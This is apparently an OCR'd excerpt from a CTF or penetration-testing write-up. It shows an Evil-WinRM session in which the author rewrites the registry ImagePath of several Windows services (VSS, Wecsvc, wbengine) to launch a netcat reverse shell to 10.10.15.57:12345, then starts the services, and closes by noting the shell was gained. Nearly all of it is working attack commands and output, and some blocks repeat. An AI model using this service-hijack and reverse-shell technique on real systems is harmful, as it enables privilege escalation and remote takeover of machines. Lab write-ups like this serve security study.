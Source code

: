```text

*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start wbengine
[SC] StartService: OpenService FAILED 1060:

The specified service does not exist as an installed service.

*Evil-WinRM* PS C:\Users\jorden\Documents> REG add HKLM\System\CurrentControlSet\Services\VSS /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /fThe operation completed successfully.

*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start VSS
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start WerSvc
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

*Evil-WinRM* PS C:\Users\jorden\Documents> REG add HKLM\System\CurrentControlSet\Services\Wecsvc /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /f
The operation completed successfully.

*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start Wecsvc
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

*Evil-WinRM* PS C:\Users\jorden\Documents> REG add HKLM\System\CurrentControlSet\Services\wbengine /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /f
The operation completed successfully.

*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start wbengine
[SC] StartService: OpenService FAILED 1060:

The specified service does not exist as an installed service.

*Evil-WinRM* PS C:\Users\jorden\Documents> REG add HKLM\System\CurrentControlSet\Services\VSS /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /fThe operation completed successfully.

*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start VSS
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.
```

I had to try many services until I found one that would work. Even then, it said it failed to start the service, but I got my shell!
